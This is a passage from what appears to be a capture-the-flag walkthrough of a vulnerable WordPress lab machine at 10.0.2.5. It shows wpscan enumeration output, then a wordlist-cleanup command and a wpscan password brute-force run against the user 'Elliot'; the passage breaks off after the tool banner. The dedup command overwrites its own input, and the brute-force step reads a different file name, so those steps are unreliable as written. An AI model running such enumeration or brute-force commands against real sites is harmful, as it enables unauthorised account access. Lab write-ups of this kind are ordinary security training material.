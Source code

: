 ```n
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.3.22 identified (Latest, released on 2019-12-12).
 | Found By: Rss Generator (Aggressive Detection)
 |  - http://10.0.2.5/feed/, <generator>https://wordpress.org/?v=4.3.22</generator>
 |  - http://10.0.2.5/comments/feed/, <generator>https://wordpress.org/?v=4.3.22</generator>

[i] The main theme could not be detected.

[+] Enumerating Most Popular Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Most Popular Themes (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:11 <==========================================================================================================================================================> (400 / 400) 100.00% Time: 00:00:11

[i] No themes Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <============================================================================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] No Users Found.

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

[+] Finished: Mon Mar  2 07:36:50 2020
[+] Requests Done: 457
[+] Cached Requests: 9
[+] Data Sent: 103.041 KB
[+] Data Received: 175.652 KB
[+] Memory used: 164.25 MB
[+] Elapsed time: 00:00:18
```

Try Username `Elliot`

```
root@kali:~# cat fsociety.dic | sort | uniq > fsociety.dic
```

```
root@kali:~# wpscan --url http://10.0.2.5/ -U Elliot -P fsocuniq.dic
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.7.6
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

.
```